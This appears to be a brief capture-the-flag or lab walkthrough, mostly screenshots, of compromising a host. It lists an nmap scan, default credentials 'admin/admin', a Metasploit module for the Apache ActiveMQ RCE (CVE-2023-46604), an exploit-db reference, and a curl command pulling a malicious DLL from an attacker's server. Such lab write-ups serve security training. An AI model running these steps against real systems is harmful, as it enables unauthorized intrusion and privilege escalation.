 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9978a913-08ab-40d8-a1c8-338fa6805d66)

```
nmap -p- 192.168.2.8 -v -sC -sV -Pn
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/84fb52b4-7c16-4c90-adad-6d26a3fd40d8)

admin/admin

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f885f3e9-c4e7-4b48-9bb3-d56c39be9796)

msf6

multi/misc/apache_activemq_rce_cve_2023_46604

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ab3f585e-50c7-4c02-8d33-abd7a511b7b3)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/12c6196c-cf44-4ba4-93fd-f9e5cc911e85)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d7db10fb-550f-4160-8bd9-e3791687ce40)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5ea4d1ce-b2b9-4b54-b667-f65774c1500f)

https://www.exploit-db.com/exploits/51267

```
curl -O http://192.168.100.IP:8000/TextShaping.dll
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2186c168-638f-43da-9d82-f159611a0753)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0dcc902b-1063-4e27-bc3d-b9f067f7be60)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5e7d7ba3-ddf7-4b65-b9b5-c0ebf5f984c9)


